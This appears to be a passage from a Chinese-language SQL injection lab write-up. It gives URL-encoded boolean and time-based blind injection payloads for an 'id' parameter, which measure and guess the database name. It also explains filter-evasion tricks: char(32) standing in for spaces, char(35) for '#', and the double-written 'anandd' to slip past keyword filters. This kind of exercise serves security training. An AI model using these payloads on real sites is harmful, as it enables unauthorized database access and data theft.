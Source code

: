 payload:



+ bool注入：

```
?id=1'+(select+char(32))anandd+(select+char(32))+length(database())>1+(select+char(35))+'
```

> 注意，上面的payload要使用的话，需要把所有的`+`换成`%2b`

> 此处的bool注入有点问题，不能正常的回显。所以建议使用时间盲注





时间盲注：

`%2b`是url转码后的`+`，`%27`是转码后的`'`单引号



> 测database()长度

```
?id=1%27%2b(select%2bchar(32))anandd%2b(select%2bchar(32))%2bif(length(database())=8,sleep(0.1),1)%2b(select%2bchar(35))%2b%27
```



> 猜解database()

```
?id=1%27%2b(select%2bchar(32))anandd%2b(select%2bchar(32))%2bif(substr((select%2bdatabase()),1,1)=%27s%27,sleep(0.1),1)%2b(select%2bchar(35))%2b%27
```

> 因为如果时间`sleep(1)`的话，都会等待15秒，所以调成`sleep(0.1)`。





此payload简单说，就是一个盲注。

>  (ps.也可使用时间盲注，不过时间盲注`sleep(1)`需要等15秒)

+ `+`：表示连接作用，能比较片面的代替`(space)空格`
+ `(select+char(32))`：表示空格。通过`select`子句来返回一个：ascii码为`32`的字符。同理`(select+char(35))`表示的是`#`。
+ `anandd`：通过双写绕过来绕过对敏感词的过滤。





#### 27.	绕过空格

> 此题相对来说没花什么时间。

> 此题对：`+(也就是%2b)`，`空格`,`注释`,`关键词`,进行了过滤处理



此题中：`and`和`or`，没有被过滤。

+ `select`和`union`使用大小写绕过。
